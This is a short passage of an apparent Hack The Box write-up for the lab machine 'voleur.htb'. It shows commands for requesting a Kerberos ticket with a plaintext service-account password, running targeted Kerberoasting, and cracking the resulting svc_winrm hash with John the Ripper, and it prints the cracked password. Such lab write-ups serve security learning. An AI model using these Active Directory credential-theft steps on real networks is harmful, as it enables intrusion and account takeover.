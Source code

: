 
    impacket-getTGT voleur.htb/svc_ldap:'M1XyC9pW7qT5Vn' -dc-ip 10.10.11.76
    export KRB5CCNAME=svc_ldap.ccache
    python3 targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htb

#The script output included hashes for lacey.miller and svc_winrm . The svc_winrm hash was
saved and cracked using John the Ripper:

      > john --wordlist=/usr/share/wordlists/rockyou.txt svc_winrm_hashes.txt  :  User : svc_winrm , Pass ==> AFireInsidedeOzarctica980219afi (?)

#user foothold 
<img width="1920" height="1045" alt="5" src="https://github.com/user-attachments/assets/8b7ae6c8-8e06-4e65-bc11-899e4fda1899" />

#Note : As the machine still not retired , we'll stop here for today stuffs ; update will come soon 

<img width="701" height="635" alt="Screenshot 2025-07-12 at 20-31-35 Hack The Box Hack The Box" src="https://github.com/user-attachments/assets/d8b684b7-8c4b-442c-a5de-1b87f94f287a" />


